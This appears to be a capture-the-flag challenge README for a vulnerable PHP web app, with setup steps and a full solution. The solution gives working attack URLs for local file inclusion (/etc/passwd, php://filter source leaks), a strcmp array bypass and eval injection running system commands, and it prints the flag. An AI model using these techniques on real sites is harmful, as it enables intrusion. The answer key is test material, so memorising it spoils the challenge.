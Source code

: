 ## How to get GPA 4.0

Hard web php challenge

## Question Text
Do you want to know the secret to perfect grades in SP? If you do prove yourself worthy!
Find my flag its somewhere there

## Setup Guide
1. Put the .php files and the passwd files in the /var/www/html
2. place the file in /var/gpa_secret folder to /var/gpa_secret(mkdir)  
3. set all excutables to permissions 111
Please note that php5 should be used with apache server

## How to Play
Obtain the flag from web page

## Solution
1. Click guess password button
2. URL will show play.spgame.site:10015/?include=secretstuff.php&passwd=
3. Delete off the passwd and try a local file inclusion play.spgame.site:10015/?include=/etc/passwd (should print it out)
4. Obtain php source play.spgame.site:10015/?include=php://filter/convert.base64-encode/resource=index.php (decode from base64)
5. Obtain secretstuff.php via the same method
6. In the secretstuff.php this was found `#my flag is somewhere in /var/gpa_secret/`
7. After getting the index.php source code a strcmp can be seen. This can be easily bypassed with play.spgame.site:10015/?include=secretstuff.php&passwd[]=anytexthere by adding straight brackets to passwd. passwd will be treated as a array, this will result in a strcmp bypass
8. After bypassing the password, we can see that there is another textbox asking to print the flag. Checking back to the source code will show that it runs an eval. Exploit it using remote code execution.
play.spgame.site:10015/?include=secretstuff.php&passwd[]=anytexthere&printer=someothertext;system("ls")
9. The directory should be shown of /var/www/html to obtain the flag play.spgame.site:10015/?include=secretstuff.php&passwd[]=anytexthere&printer=someothertext;system("ls /var/gpa_secret") a file called nottheflag can be seen
10. play.spgame.site:10015/?include=secretstuff.php&passwd[]=anytexthere&printer=someothertext;system("/var/gpa_secret/nottheflag") will execute the file and print the flag

Flag is GCTF{L1573N_70_Y0UR_S1G_H34D_K3LV1N_4_GP4_4}
